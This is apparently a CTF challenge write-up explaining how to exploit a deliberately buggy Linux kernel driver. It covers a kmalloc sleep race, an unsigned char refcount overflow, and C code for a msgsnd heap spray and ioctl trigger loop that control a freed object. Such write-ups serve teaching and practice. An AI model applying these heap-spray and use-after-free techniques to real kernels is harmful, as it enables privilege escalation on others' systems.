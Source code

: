 The bug is in the 4th line. `kmalloc(128,GFP_KERNEL)` CAN SLEEP. This comes from the man page of kmalloc - `GFP_KERNEL - Allocate normal kernel ram. May sleep`.
`GFP_ATOMIC` is the flag for kmalloc that does not sleep.
So with the kernel actually being able to sleep, `ptr` gets kfree()-ed , but it does not get NULL-ed out. Another process can access the IOCTL interface of the driver and perform operations with a dangling `ptr`. This, in itself, isn't useful, because `ptr` is always NULL when unlinking happens in the main list. So it is effectively calling kfree(NULL).


The reference count variable is a global variable of type `unsigned char`. This is bad, because `char` can only hold 0x00-0xff. Creating 256 entries will set the reference count back to 0 instead of 256.

Combining these 2 bugs, we can actually make `ptr` non-zero when the garbage cleanup is trigerred. Create 257 objects and delete 1.

## Catching the object

It is important to now plan how we can control the contents of `ptr` and how useful it can be. Since we know that we can trigger the write of the `secret_value`, we must try to control `ptr->val2` , the offset. We can run a simple heap spray that should catch `ptr`'s freed memory, and control `val2`. Since this is a CTF Challenge, I wanted to make it easy , and made sure the most publicly available heap spraying technique - the msgsend() spray - can be used. With the `mtype` field of the msgsend() spray, you can control the value.

So, to make this work, we must

1. Run a heap spray.
2. Make kmalloc() sleep.
3. Trigger the overwrite from the IOCTL Interface BEFORE kmalloc() wakes up.

```C
printf("[*] Starting spray\n");
for(i=0; i<count; i++) {
	int msqid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT);
	struct {
		long mtype;
		char mtext[10];
	} msg;

	memset(msg.mtext, 0x42, 10);
	msg.mtype = 0x2274f40;

	if(msgsnd(msqid, &msg, sizeof(msg.mtext), 0) < 0){
		perror("msgsnd");
	}
	ioctl(fd,0xcafeb003,10);
	// magic=10 because mtext is size 10.
}
```

To make kmalloc sleep, just

```C
for(i=0;i<1000;i++)
{
	for(j=0;j<256;j++)
		ioctl(fd,0xcafeb001,20);
	unsigned int lol = ioctl(fd,0xcafeb001,20);
	ioctl(fd,0xcafeb002,lol);
}
```
